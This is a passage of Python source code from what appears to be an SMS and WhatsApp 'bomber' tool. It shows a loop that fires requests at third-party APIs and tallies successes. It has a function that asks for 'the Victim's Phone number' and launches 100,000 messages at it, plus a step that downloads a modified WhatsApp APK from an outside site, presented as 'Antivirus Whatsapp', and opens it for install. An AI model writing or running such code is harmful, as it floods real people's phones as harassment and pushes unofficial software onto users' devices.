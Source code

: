                         fail += 1
                except Exception:
                    pass
                    fail += 1
                print(G+"\r"+"Success : "+str(success)+R+" Error : "+str(fail),end="")
            elif "GET" in api:
                url,head,method,check = api
                try:
                    a = requests.get(url,headers=head)
                    if check in a.text:
                        success += 1
                    else:
                        
                        fail += 1
                except Exception:
                    pass
                    fail += 1
                print("\r"+"Success : "+str(success)+R+" Error : "+str(fail),end="")
            else:
                print ("Unexpectedly Error")
                return exit()
            
        continue
    return success,fail


def sms():
	os.system('clear')
	print(Style.BRIGHT+logo)
	print()
	print(f"{R} | WARNING |  {Y}\n\n * This tool is very dangerous don't try it on your self\n ")
	print()
	target = input(
	    f"{G}[{W}+{G}] Enter the Victim's Phone number \n\n{W}-----{R}# {C}")	
	print()
	a = requests.get('https://raw.githubusercontent.com/T-Dynamos/BaapG-Attack/main/.protected.numbers').text
	if target in a :
		error(f"{R} You Can't Bomb This Number");print();res()
	else:
		bomb(100000,target)	
	print(f"\n{B} Press {G}Ctrl { R}+ {G} C {B} to exit\n")


	res()

def wpbomb():
    if os.path.exists("/usr/bin/bash"):
        print()
        error("Whatsapp bomber is not made for linux\n",exit=False)
        res()
    check_intr()
    os.system('clear')
    print(logo)
    print(G)
    print("Antivirus Whatsapp is required")
    ig = input(f"{Y}Do you want to install Antivirus whatsapp ?? [y/n] = ")
    if ig == 'y':
      file = os.path.isfile('/sdcard/Download/AntivirusWp.apk')
      if file == True:
        print("Skipping Download")
        os.system('termux-open /sdcard/Download/AntivirusWp.apk')
      else:
        print(f"{G} Starting Download")
        check_intr
        os.chdir('/sdcard/Download/')
        tload.download_file_pg('https://softalien.xyz/dl/whatsmod/YOWA_v8.93_By_Yowayousef.apk')